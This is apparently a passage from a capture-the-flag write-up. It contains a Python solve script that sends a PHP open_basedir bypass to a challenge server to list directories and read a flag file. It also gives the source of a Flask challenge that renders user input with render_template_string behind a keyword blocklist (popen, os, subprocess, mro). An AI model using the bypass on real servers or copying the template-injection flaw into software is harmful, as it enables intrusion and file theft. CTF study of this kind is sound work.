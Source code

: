 ```python
p = """
chdir("uploads/");
ini_set("open_basedir", "/var/www/html:../");
chdir("../");chdir("../");chdir("../");chdir("../");
var_dump(scandir('.'), file_get_contents('t0t4lly_n0t_th3_r3al_fl4gG'));
"""
print(requests.get(f'http://52.59.229.252:1234/?e={p}').text)
```
- `omakmoh` solved this chall by bypassing the disabled functions and executes commands on the sys.

### Strength Calculator <Badge type="danger">Hard</Badge>
Chall Source code :

```python
from flask import Flask, render_template, request, render_template_string, send_file
import re,os
def calculateStrength(name):
	strength = 0
	for _ in name:
		strength += ord(_)
	return str(strength)
def isAdmin():
	# We didn't implement this yet so no one is an admin
	return False
app = Flask('AAA')
app.secret_key=os.urandom(32)
@app.route('/',methods=['POST','GET'])
def index():
	if request.method == 'POST':
		if re.search("\{\{|\}\}|(popen)|(os)|(subprocess)|(application)|(getitem)|(flag.txt)|\.|_|\[|\]|\"|(class)|(subclasses)|(mro)",request.form['name']) is not None:
			name= "Hacking detected"
			return render_template("index.html", name=name,response="0")
		else:
			name = "Name : "+render_template_string(request.form['name'])
			response = "Strength : "+ calculateStrength(request.form['name'])
			print(isAdmin())
			if isAdmin():
				return render_template("index.html", name=name,  response=response)
			else:
				return render_template("index.html",name="Guest", response=response)
	if request.method == 'GET':
		return render_template("index.html")

@app.route("/source")
def get_source():
	return send_file("./main.py",as_attachment=True)

if __name__ == "__main__":
    app.run(host='0.0.0.0')
```
